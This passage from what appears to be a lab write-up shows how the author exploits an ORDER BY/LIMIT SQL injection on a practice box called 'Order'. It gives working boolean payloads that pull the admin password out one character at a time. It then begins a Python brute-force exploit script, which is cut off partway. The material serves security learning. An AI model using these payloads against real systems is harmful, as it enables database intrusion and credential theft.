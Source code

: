 Done. We did by time based.

# Order By SQLInjection

We can mount it in a order by query also.

We get a TRUE statement

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:16:01.png)

And a FALSE statement

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:16:23.png)

```
Content-Length: 1750 - FALSE
Content-Length: 1484 - TRUE
```

Now we build our query to bruteforce it

This is TRUE, because we already know that the user_id first password char is 4

```sql
4 LIMIT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE user_id=1),1,1))='4' THEN 1 ELSE 2 END)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:19:44.png)

This is FALSE, because we already know that the user_id first password char is not 1

```sql
4 LIMIT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE user_id=1),1,1))='1' THEN 1 ELSE 2 END)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:20:17.png)

I'll use almost the same exploit I built earlier, just changing the payload I'll use and the condition to be true or not

And here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:30:09.png)

order_by.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to extract username and password for admin user
# Order By SQLInjection
# Order - bmdyy

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1"
```